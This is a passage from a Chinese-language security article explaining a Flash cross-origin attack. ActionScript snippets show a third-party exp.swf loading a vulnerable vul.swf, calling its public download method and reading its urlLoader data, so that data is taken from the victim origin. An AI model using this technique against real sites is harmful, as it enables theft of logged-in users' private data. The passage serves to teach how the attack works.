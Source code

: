 ```

```

通过第三方 swf，我们将其加载进来。由于 Vul 继承了 Sprite，因此拥有了元素的基因，我们可以从容器中找到它。

同时它也是主类，默认会被添加到 Loader 这个加载容器里。

```
// exp.swf
var loader:Loader = new Loader();
loader.contentLoaderInfo.addEventListener('complete', function(e:Event) : void {
    var main:* = DisplayObjectContainer(loader).getChildAt(0);

    trace(main);    // [object Vul]
});
loader.load(new URLRequest('//swf-site/vul.swf'));

```

因为 Loader 是子 swf 的[默认容器](http://help.adobe.com/zh_CN/FlashPlatform/reference/actionscript/3/flash/system/LoaderContext.html#requestedContentParent)，所以其中第一个元素显然就是子 swf 的主类：Vul。

由于 Vul 定义了一个叫 download 的公开方法，并且授权了所有的域名，因此在第三方 exp.swf 里，自然也能调用它：

![](http://drops.javaweb.org/uploads/images/cb9521ac90e3407dcf79e2855f80e2db005baf8d.jpg)

```
main.download('//swf-site/data');

```

同时 Vul 中的 urlLoader 也是一个公开暴露的成员变量，同样可被外部访问到，并对其添加数据接收事件：

```
var ld:URLLoader = main.urlLoader;
ld.addEventListener('complete', function(e:Event) : void {
    trace(ld.data);
});

```

尽管这个 download 方法是由第三方 exp.swf 发起的，但最终执行`URLLoader`的`load`方法时，上下文位于 vul.swf 里，因此这个请求仍属于 swf-site 的源。

于是攻击者从任意位置，跨站访问 swf-site 下的数据了。

更糟的是，Flash 的跨源请求可通过 crossdomain.xml 来授权。如果某个站点允许 swf-site，那么它也成了受害者。

如果用户正处于登录状态，攻击者悄悄访问带有个人信息的页面，用户的隐私数据可能就被泄露了。攻击者甚至还可模拟用户请求，将恶意链接发送给其他好友，导致蠕虫传播。

> ActionScript 虽然是强类型的，但只是开发时的约束，在运行时仍和 JavaScript 一样，可动态访问属性。

### 类反射

通过容器这个桥梁，我们可访问到子 swf 中的对象。但前提条件仍过于理想，现实中能利用的并不多。

如果目标对象不是一个元素，也没有和公开的对象相关联，甚至根本就没有被实例化，那是否就无法获取到了？

做过页游开发的都试过，将一些后期使用的素材打包在独立的 swf 里，需要时再加载回来从中提取。目标 swf 仅仅是一个资源包，其中没有任何脚本，那是如何参数提取的？
